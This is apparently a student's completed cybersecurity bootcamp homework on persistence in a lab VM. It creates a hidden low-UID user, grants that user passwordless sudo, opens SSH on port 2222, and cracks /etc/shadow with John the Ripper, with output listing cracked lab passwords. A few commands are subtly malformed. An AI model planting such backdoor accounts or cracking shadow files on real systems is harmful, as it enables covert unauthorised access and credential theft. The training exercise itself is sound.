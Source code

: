 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - ` adduser --no-create-home sysd`

2. Give your secret user a password: 
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 990 sysd`

4. Give your secret user the same GID:
   - `groupadd -g 990 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `sudo sh -c 'echo "sysd ALL=(ALL:ALL) NOPASSWD: ALL" > /etc/sudoers.d/sysd`
    OR
    'sudo visudo'

6. Test that `sudo` access works without your password:
    'sudo -l'
    OR
    ```bash
    sudo cat /etc/{gshadow,shadow,passwd}
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:
# first, I nano'd to it 'nano /etc/ssh/sshd_config', then I uncommented Port 22 and I added Port 2222 below (see screenshot)
    ```bash 
     Port 2222
    ```


**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:

    - `service ssh restart`

2. Exit the `root` account:
    - 'exit' AND/OR 'ctrl + d'

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.56.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo -s`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.56.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
    # escalate privileges first
    - `sudo -s `
    # Use john to crack /etc/shadow
    # I copied the shadow file first, then I used john on the copied shadow file.
    - 'john /etc/shadow' 
    OR 'cp /etc/shadow > /etc/cracked_pw.txt'  then I entered 'john cracked_pw.txt'
The following output was displayed: 
"root@scavenger-hunt:/etc# john cracked_pw.txt 
Created directory: /root/.john
Loaded 8 password hashes with 8 different salts (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
computer         (stallman)
freedom          (babbage)
trustno1         (mitnik)
dragon           (lovelace)
lakers           (turing)
passw0rd         (sysadmin)
"
---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

